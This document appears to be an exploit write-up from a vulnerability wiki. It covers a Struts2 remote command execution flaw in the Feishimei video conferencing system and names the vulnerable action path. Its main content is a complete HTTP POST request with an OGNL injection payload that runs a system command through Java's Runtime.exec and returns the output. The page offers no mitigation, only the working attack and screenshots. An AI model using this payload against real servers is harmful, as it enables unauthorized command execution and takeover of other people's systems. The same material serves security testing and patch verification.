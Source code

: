 # Feishimei Video Conferencing System Struts2 Remote Command Execution Vulnerability

## Vulnerability Description

Feishimei Video Conferencing System Struts2 component has a remote command execution vulnerability, and the vulnerability attacker can execute any command to obtain server permissions.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">FeiSiMei Video Conferencing System</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630910934893-ef391d6e-93b4-4596-b185-93727d3b5e21.png)

The path to the vulnerability is

```python
/confinfoaction!showallConfinfos.action
```

Send a request packet

```python
POST /confinfoaction!showallConfinfos.action HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 669
Host: 
Connection: Keep-Alive

('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43mycmd\75\'ipconfig\'')(d))&(h)(('\43myret\75@java.lang.Runtime@getRuntime().exec(\43mycmd)')(d))&(i)(('\43mydat\75new\40java.io.DataInputStream(\43myret.getInputStream())')(d))&(j)(('\43myres\75new\40byte[51020]')(d))&(k)(('\43mydat.readFully(\43myres)')(d))&(l)(('\43mystr\75new\40java.lang.String(\43myres)')(d))&(m)(('\43myout\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('\43myout.getWriter().println(\43mystr)')(d))
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630911232289-4b99e8bb-61d9-4f5a-9829-4c4ba96075ef.png)